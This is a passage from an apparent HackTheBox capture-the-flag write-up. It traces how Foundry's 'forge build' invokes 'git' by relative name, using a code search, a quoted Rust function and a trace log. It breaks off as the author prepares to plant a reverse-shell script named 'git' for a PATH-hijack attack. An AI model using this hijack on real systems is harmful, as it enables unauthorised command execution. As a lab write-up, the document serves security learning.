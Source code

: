 This can be found a few ways. One thing to search for would be places the Rust program is calling other programs, which is done with `Command::new`. I can search for that in GitHub and notice the top result is in `forge` and not using an absolute path for `git`:

![image-20250324144417043](/img/image-20250324144417043.png)

That’s actually not the first place I hit a call to `git` when running `forge build`. In `forge build`, there’s a call on [line 72 of build.rs](https://github.com/foundry-rs/foundry/blob/e0f87ad31d929abcf7f0eb96952e1805dc9d2c22/crates/forge/src/cmd/build.rs#L72) to `install_missing_dependencies`. That’s defined on [lines 94-107](https://github.com/foundry-rs/foundry/blob/master/crates/forge/src/cmd/install.rs#L94-L107) of `install.rs`, which calls `has_missing_dependencies`. That function is defined on [lines 480-490 of `mod.rs`](https://github.com/foundry-rs/foundry/blob/e0f87ad31d929abcf7f0eb96952e1805dc9d2c22/crates/forge/src/cmd/doc/mod.rs#L480-L490):

```

    pub fn has_missing_dependencies<I, S>(self, paths: I) -> Result<bool>
    where
        I: IntoIterator<Item = S>,
        S: AsRef<OsStr>,
    {
        self.cmd()
            .args(["submodule", "status"])
            .args(paths)
            .get_stdout_lossy()
            .map(|stdout| stdout.lines().any(|line| line.starts_with('-')))
    }

```

As this is at the top of the `build` path, it’s called every time `forge build` is called.

I could also use the Rust logger, which is configured by the the `RUST_LOG` environment variable. I’ll get a copy of `forge` on my host, and run it:

```

oxdf@hacky$ PATH=. RUST_LOG=trace ./forge build
2025-03-24T18:53:12.553141Z TRACE foundry_config::providers::remappings: get all remappings from "/media/sf_CTFs/hackthebox/blockblock-10.10.11.43"
2025-03-24T18:53:12.553462Z TRACE foundry_config::providers::remappings: find all remappings in lib path: "/media/sf_CTFs/hackthebox/blockblock-10.10.11.43/lib"
2025-03-24T18:53:12.555666Z TRACE foundry_cli::utils: executing command=cd "/media/sf_CTFs/hackthebox/blockblock-10.10.11.43" && "git" "submodule" "status" "/home/oxdf/hackthebox/blockblock-10.10.11.43/lib"
2025-03-24T18:53:12.559045Z DEBUG version: foundry_compilers::compilers::vyper: getting Vyper version cmd="vyper" "--version"
Nothing to compile

```

There is a call to `git submodule status`.

To exploit this, I’ll just copy my reverse shell from [above](#via-build) into a file named `git` and run:
